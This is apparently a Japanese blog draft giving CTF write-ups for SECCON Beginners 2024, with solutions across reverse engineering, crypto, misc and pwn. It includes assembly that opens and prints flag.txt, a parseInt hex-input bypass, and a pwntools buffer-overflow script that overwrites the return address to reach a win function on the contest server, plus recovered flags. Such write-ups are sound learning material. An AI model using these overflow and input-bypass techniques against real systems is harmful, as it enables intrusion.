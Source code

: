 ```yaml
---
title: "ctf4b2024"
date: 2024-06-17T05:01:20+09:00
draft: true
---
```


SECCON Beginners に参加しました．
半日参加，161/962 でした．
なかなか初心者から抜けられないな，と思いながら upsolve します．
時間かけても解けないものは writeup を見ながら.

## writeup

### rev: assemble

Intel記法のアセンブリ言語を書いて、flag.txtファイルの中身を取得してみよう!

#### challenge1

Please write 0x123 to RAX!

```asm
mov rax, 0x123
```

#### challenge2

Please write 0x123 to RAX and push it on stack!

```asm
mov rax, 0x123
push rax
```

#### challenge3

Please use syscall to print Hello on stdout!

```asm
mov rax, 0x6f6c6c6548
push rax
mov rdx, 5
mov rdi, 1
mov rax, 1
mov rsi, rsp
syscall
```

#### challenge4

Please read flag.txt file and print it to stdout!

```asm
mov rbx, 0
push rbx
mov rbx, 0x7478742e67616c66
push rbx
mov rdi, rsp

# sys_open
mov rax, 2
mov rsi, 00
mov rdx, 0
syscall

# sys_read
mov rdi, rax
mov rax, 0
mov rsi, rsp
mov rdx, 52
syscall

# sys_write
mov rax, 1
mov rdi, 1
mov rdx, 52
syscall
```

### rev: cha-ll-enge

見たことがない形式のファイルだけど、中身を見れば何かわかるかも...?

見たことがない形式のファイルと言ってるのでとりあえず ```file``` をやってみたが分からず．
chatGPT に聞くと LLVM IR だと教えてくれた．

```shell
@__const.main.key = private unnamed_addr constant [50 x i32] [i32 119, i32 20, i32 96, i32 6, i32 50, i32 80, i32 43, i32 28, i32 117, i32 22, i32 125, i32 34, i32 21, i32 116, i32 23, i32 124, i32 35, i32 18, i32 35, i32 85, i32 56, i32 103, i32 14, i32 96, i32 20, i32 39, i32 85, i32 56, i32 93, i32 57, i32 8, i32 60, i32 72, i32 45, i32 114, i32 0, i32 101, i32 21, i32 103, i32 84, i32 39, i32 66, i32 44, i32 27, i32 122, i32 77, i32 36, i32 20, i32 122, i32 7], align 16
```

どうやら XOR しているっぽいので，一つ後の数字と xor してみると "ctf4b" みたいな文字列が出てきたのでこのままデコードする

```ctf4b{7ick_7ack_11vm_int3rmed14te_repr3sen7a7i0n}```

### rev: construct

main を見ても情報が少ない．
かつあらわれない関数が大量にでてくる

```C
void main(undefined8 param_1,long param_2)

{
  puts("CONGRATULATIONS!");
  printf("The flag is ctf4b{%s}\n",*(undefined8 *)(param_2 + 8));
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
```

```C

void func_e0db2736(int param_1)

{
  if (param_1 != 2) {
    puts("usage: construct <password>");
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  return;
}
```

```C
void func_1f5eba30(undefined8 param_1,long param_2)

{
  int iVar1;
  
  iVar1 = strncmp((char *)((long)i + *(long *)(param_2 + 8)),
                  "17zv5h6wjgbqerastioc294n0lxu38fdk_ypm" + i,2);
  if (iVar1 != 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  i = i + 2;
  return;
}
```

どう見ても怪しい文字列が書いてあるので，reference を見てこれらの関数がどこに置かれているかを見る．
順番的にもいけてるっぽいのでこのままデコードすると文字列があらわれる

```ctf4b{c0ns7ruc70rs_3as3_h1d1ng_7h1ngs!}```

### crypto: Safe Prime

```python
import os
from Crypto.Util.number import getPrime, isPrime

FLAG = os.getenv("FLAG", "ctf4b{*** REDACTED ***}").encode()
m = int.from_bytes(FLAG, 'big')

while True:
    p = getPrime(512)
    q = 2 * p + 1
    if isPrime(q):
        break

n = p * q
e = 65537
c = pow(m, e, n)

print(f"{n = }")
print(f"{c = }")
```

調べてみるとソフィー・ジェルマン素数というやつらしい．
```q=(2p+1)``` なので，p が q であらわせる．
あとは二分探索でもいいし sympy で解いてもいい．

### misc: getRank

Burp を見ると ```input(score)``` によって ```rank``` が変化することが分かる．
ソースコードを見ると 10 ** 255 よりも大きい値を入れればいいっぽいが，input が長すぎるとエラーに流される．
そこで，16 進数を使って ```0xfff...fff``` とすると通る．
数値としては 10 ** 255 を超えてるしなあとか思っていたら，[Infinity 扱いになるらしい](https://qiita.com/toha/items/65cfc6144128c5988e22#:~:text=%E6%99%AE%E9%80%9A%E3%81%AB%E5%85%A5%E5%8A%9B%E3%81%97%E3%81%A6%E3%82%82%E3%81%A0%E3%82%81%E3%81%AA%E3%81%AE%E3%81%A7%EF%BC%8C%E6%96%87%E5%AD%97%E5%88%97%E3%81%A8%E3%81%97%E3%81%A6%E5%85%A5%E5%8A%9B%E3%81%A7%E3%81%8D%E3%82%8B%E6%9C%80%E5%A4%A7%E9%95%B7%E3%81%A7%EF%BC%8C16%20%E9%80%B2%E6%95%B0%E8%A1%A8%E8%A8%98%E3%81%A7%E6%9C%80%E5%A4%A7%E3%81%AE%E5%80%A4%E3%82%92%E5%85%A5%E3%82%8C%E3%81%A6%E3%81%BF%E3%82%8B%E3%81%A8%20Infinity%20%E3%81%A8%E3%81%AA%E3%82%8B%E3%81%93%E3%81%A8%E3%81%8C%E3%82%8F%E3%81%8B%E3%82%8B%EF%BC%8E)

parseInt() で基数を省略するときの挙動を利用するらしい．

### misc: clamre

clamAV というアンチウィルスソフトのシグネチャを読めばいい．
```flag.ldv``` に書かれているので読むが，```\num``` の扱いが分からず時間を食ってしまった．

### pwn: simpleoverflow

```ctf4b{0n_y0ur_m4rk}```

### pwn: simpleoverwrite

```python
from pwn import *


e=ELF('./chall')
server=('simpleoverwrite.beginners.seccon.games')
port=(9001)

ret2win=e.symbols['win']
print(ret2win)

with remote(server,port) as r:
        payload=b'A'*18+p32(ret2win)
        r.sendlineafter(b'input:', payload)
        r.recvline()
```
